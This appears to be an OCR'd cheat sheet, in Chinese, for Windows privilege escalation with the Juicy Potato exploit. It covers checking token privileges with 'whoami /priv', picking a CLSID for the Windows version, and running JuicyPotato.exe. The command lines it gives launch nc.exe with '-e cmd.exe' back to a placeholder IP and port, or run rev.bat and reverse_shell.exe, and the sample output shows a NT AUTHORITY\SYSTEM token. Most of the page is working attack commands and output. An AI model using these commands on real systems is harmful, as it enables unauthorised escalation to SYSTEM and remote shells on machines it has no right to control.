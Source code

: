 	Juicy Potato
	如果机器>= Windows 10 1809 & Windows Server 2019 - 尝试Rogue Potato
	如果机器< Windows 10 1809 < Windows Server 2019 - 尝试Juicy Potato
	https://github.com/ohpe/juicy-potato/releases
	检查服务帐户的权限，寻找SeImpersonate/或SeAssignPrimaryToken
	whoami /priv
	根据您的 Windows 版本选择 CLSID，CLSID 是标识 COM 类对象的全局唯一标识符
	https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise
	https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise
	https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise
	https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro
	https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise
	https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter
	https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard
	执行 JuicyPotato 以运行特权命令
	>JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
	>JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
	>JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
	    Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
	    ......
	    [+] authresult 0
	    {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
	    [+] CreateProcessWithTokenW OK
